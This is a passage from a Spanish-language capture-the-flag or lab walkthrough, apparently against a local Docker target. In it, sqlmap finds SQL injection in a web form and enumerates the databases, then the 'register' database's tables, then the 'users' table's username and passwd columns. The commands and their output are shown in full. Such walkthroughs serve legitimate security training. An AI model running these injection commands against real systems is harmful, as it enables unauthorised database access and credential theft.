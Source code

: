 ```bash
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys

[20:07:01] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0805pm.csv'

[*] ending @ 20:07:01 /2025-09-07/
```   
* Con -u indicamos la url.
* --forms le dice a sqlmap que busque formularios en la página (inputs, login forms, búsqueda, etc.) y trate de inyectar SQL allí.
* Con --dbs indicamos que queremos listar las bases de datos disponibles si encuentra una inyección exitosa.
* Con --batch indicamos a sqlmap que no nos pregunte  durante el ataque, sino que asuma respuestas por defecto. Es útil para automatizar el proceso en scripts o pruebas largas.

Bien, hemos encontrado la base de datos *register* así que accedemos a ella y listamos las tablas que pueda haber.

```bash
> sqlmap -u http://172.17.0.2 --forms -D register --tables --batch
[20:15:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:15:29] [INFO] fetching tables for database: 'register'
[20:15:29] [INFO] retrieved: 'users'
Database: register
[1 table]
+-------+
| users |
+-------+

[20:15:29] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0815pm.csv'

[*] ending @ 20:15:29 /2025-09-07/
```
Esto nos ha indicado que en esta base de datos hay una tabla que se llama *users*, la cual, sospechosamente, puede contener usuarios.  Ahora que ya tenemos la tabla, lo que nos interesa es conseguir las columnas, así que ejecutamos:
```bash
> sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch
[20:20:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:20:43] [INFO] fetching columns for table 'users' in database 'register'
[20:20:43] [INFO] retrieved: 'username'
[20:20:43] [INFO] retrieved: 'varchar(30)'
[20:20:43] [INFO] retrieved: 'passwd'
[20:20:43] [INFO] retrieved: 'varchar(30)'
Database: register
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| passwd   | varchar(30) |
| username | varchar(30) |
+----------+-------------+
```